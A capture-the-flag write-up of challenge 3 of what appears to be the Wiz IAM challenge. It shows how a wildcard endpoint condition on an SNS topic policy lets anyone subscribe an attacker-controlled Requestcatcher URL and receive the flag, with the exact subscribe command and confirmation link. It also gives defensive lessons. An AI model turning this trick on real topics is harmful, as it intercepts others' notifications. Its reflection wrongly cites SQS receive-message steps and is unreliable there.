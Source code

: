 # Challenge number
Challenge: 3

## Challenge Statement
In this challenge, I was tasked with subscribing to an SNS topic and confirming the subscription. The IAM policy provided in the challenge allowed me to subscribe to the TBICWizPushNotifications SNS topic if the endpoint matched the specified condition *@tbic.wiz.io. My goal was to subscribe using a valid endpoint and confirm the subscription to receive notifications.

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
**What do I have access to?**
The IAM policy allows public access for subscribing to the SNS topic with the SNS:Subscribe action. The policy specifies that anyone can subscribe, but only endpoints with the domain @tbic.wiz.io are permitted through the condition sns:Endpoint. This means anyone can interact with the topic as long as the provided endpoint meets the specified condition.

**What don't I have access to?**
While I have the permission to subscribe, I do not have access to perform any other administrative tasks related to the SNS topic. This includes actions such as publishing messages to the topic, modifying the topic's settings, or removing subscriptions. The policy grants permission for subscribing but doesn't provide broader control over the SNS topic itself.

**What do I find interesting?**
The policy's allowance for any principal (i.e., anyone) to subscribe, as long as the endpoint matches @tbic.wiz.io, is intriguing because it balances openness with a condition. While this might seem like a flexible setup, the openness of AWS: * raises concerns, as anyone could exploit this by creating an endpoint matching the condition. It’s an interesting design choice, but it could lead to unintended exposure of the service.

**What could an attacker do with this access?**
An attacker could potentially abuse this access by subscribing a malicious endpoint that matches the @tbic.wiz.io condition. Once subscribed, the attacker could receive sensitive notifications or data sent to the topic. Since there is no further control on the subscription beyond the endpoint condition, attackers could gather confidential information or trigger unintended actions if the topic sends alerts or triggers workflows upon new messages.
  
**How could this misconfiguration have been avoided?**
This misconfiguration could have been avoided by tightening the permissions around who is allowed to subscribe to the SNS topic. Instead of allowing open access with AWS: *, a more secure setup would restrict access to specific, trusted AWS identities (IAM roles or users). Furthermore, a more granular condition, such as IP address restrictions or more specific endpoint checks, could be applied. Additionally, confirming subscriptions only from known, trusted endpoints would help avoid malicious subscriptions.


## Solution
**Step-1: Capture the Flag Using Requestcatcher**
To begin the process, I used Requestcatcher to create a temporary endpoint to subscribe to the SNS topic. This would allow me to receive the messages sent by the SNS topic.
```
https://requestcatcher.com/
```
**Step-2: Subscribe to the SNS Topic**
To subscribe to the SNS topic, I used the aws sns subscribe command, specifying the topic ARN and the endpoint that matches the required condition (@tbic.wiz.io).
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://ashish.requestcatcher.com/test@tbic.wiz.io'
```

**Step 3: Confirm the Subscription**
After subscribing, SNS sent a confirmation message to the provided endpoint. To confirm the subscription, I accessed the confirmation link provided in the message. The URL included a Token parameter that I used to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5872376d572991ca2da28f73768f1d8b95ea0f71895f216143f2f1037cc2ea5795e8b34921442cff336606b3cb79056939a430c18dea0854ec15350ecd88fda926cac07c59061146a0af550e5fab5d7e0a4c29d2cf5ddcc7ded4c8b33b5f2ad181ec8f386ad8e71e01227dbb98985917a9

```
Once I clicked the confirmation link, the subscription was confirmed, and I was able to receive notifications from the SNS topic.

**Step 4: Receive the Message**
After confirming the subscription, I started receiving messages from the SNS topic. These messages contained the relevant information, including the flag or other useful data, which I could then extract for further use.
```
flag: {wiz:always-suspect-asterisks}
```
Step 5: Submit the Flag: Finally, I submitted the retrieved flag on the challenge platform.

## Reflection
**What was your approach?**
My approach involved understanding the specific condition in the IAM policy, which restricted access to endpoints ending with @tbic.wiz.io. Once I understood that, I focused on subscribing to the SNS topic with the correct endpoint and confirmed my subscription before proceeding with the rest of the process.
  
**What was the biggest challenge?**
The biggest challenge was ensuring my endpoint matched the condition specified in the IAM policy (@tbic.wiz.io). Once that was clear, I followed the SNS subscription and confirmation steps carefully.
  
**How did you overcome the challenges?**
I overcame this challenge by reviewing the IAM policy to understand the condition and selecting an appropriate endpoint. Using the AWS CLI, I tested different commands to confirm I had the correct permissions to subscribe to the SNS topic and receive messages.
  
**What led to the break through?**
The breakthrough came when I successfully executed the receive-message command, which allowed me to pull messages from the queue. I then found the message containing the flag, marking the success of the process.
  
**On the blue side, how can the learning be used to properly defend the important assets?**
This experience reinforced the importance of the principle of least privilege. To protect critical assets, like SQS queues, organizations should avoid granting overly broad permissions and restrict access to only trusted users or services. Regular audits and reviews of IAM policies help minimize the risk of unauthorized access and prevent security vulnerabilities.
